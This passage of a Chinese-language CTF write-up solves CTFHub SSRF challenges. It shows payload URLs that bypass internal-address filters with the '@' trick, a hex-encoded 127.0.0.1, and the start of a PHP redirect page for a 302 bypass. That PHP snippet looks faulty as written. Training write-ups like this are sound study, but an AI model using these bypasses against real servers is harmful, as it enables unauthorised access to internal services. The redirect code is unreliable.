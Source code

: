 ```
## URL Bypass

![image-20250420000956644.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a35065c0b2856743b39d1a44930951b589?version=1.0&width=2046&height=1536)

![image-20250420001018794.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3dfc30d996d6a42e5aee454749925957b?version=1.0&width=2046&height=1536)



必须以```http://notfound.ctfhub.com```开头，利用@

前几题都是在flag.php，不扫了

```http://challenge-8969491d76b728e9.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com@127.0.0.1/flag.php```

![image-20250420001437851.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3930606f911fd4822bf9de55d084d8026?version=1.0&width=2046&height=1536)

**flag:ctfhub{cea33271e701772ca5d81eb8}**

## 数字IP Bypass

![image-20250420001705644.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3249cd9ad4fb74e21a6b437e00ebb95cf?version=1.0&width=2046&height=1536)

127不能用了，先试试[::]，不管用

把127.0.0.1换成16进制```0x7F.0x00.0x00.0x01```

![image-20250420002245057.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3c5de32b2ea6d4de0bc3bf646bfa76ebe?version=1.0&width=2046&height=1536)

**flag:ctfhub{83543fbfc136ce38c99b0eef}**

## 302跳转 Bypass

![image-20250420003445531.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a361afa7ef4d9d4f728a74587bdae73875?version=1.0&width=2046&height=1536)

虽然说了是302跳转但也可以不用302跳转，有两中方法

### 方法1

去自己的vps上的网站上新建个页面

``` php
<?php
if(isset($_GET['url'])){
    header("Location: {$_GET['http://127.0.0.1/flag.php']}");
    exit;
}
?>
```
